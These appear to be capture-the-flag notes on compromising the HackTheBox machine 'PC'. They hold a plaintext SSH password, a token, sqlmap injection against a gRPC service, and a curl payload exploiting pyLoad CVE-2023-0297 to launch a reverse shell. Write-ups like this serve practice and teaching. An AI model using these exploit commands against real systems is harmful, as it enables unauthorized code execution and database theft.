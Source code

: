 | HOST         | PORT | PROTO | SERVICE | VERSION                 |
| ------------ | ---- | ----- | ------- | ----------------------- |
| 10.10.11.214 | 22   | tcp   | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.7 |


## HEADERS
---
---

## DIRECTORIES
---

---

## USERS
---
sau HereIsYourPassWord1431

---

## NOTES
---
* port 50051 open
* http://pc.htb:50051 displays something unreadable 
* `nc pc.htb 50051` and wait
* `Did not receive HTTP/2 settings before handshake timeout`
* grpc on port 50051
* `grpcui -plaintext 10.10.11.214:50051`
* register
* id `378`
* token `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoid2l0aGVyIiwiZXhwIjoxNjg4ODQyMjMxfQ.eJ47h1fMfxYqU_0avGqHHYiGX3sZts35HYfVvlXQxLA`
* send and capture a getinfo() request in burpsuite
* save the request as `sql.req
* `sqlmap -r sql.req -p id --dump` to dump the databse and find sau's ssh password
* `localhost:8000` running `pyLoad 0.5.0` on machine found in linpeas
* create a local ssh tunnel `ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214`
* https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad
* create bash reverse shell in `/tmp` and run a nc listener
* `curl -i -s -k -X $'POST' \     --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/shell.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \     $'http://127.0.0.1:8000/flash/addcrypted2'` will run the reverse shell
* 
 ---
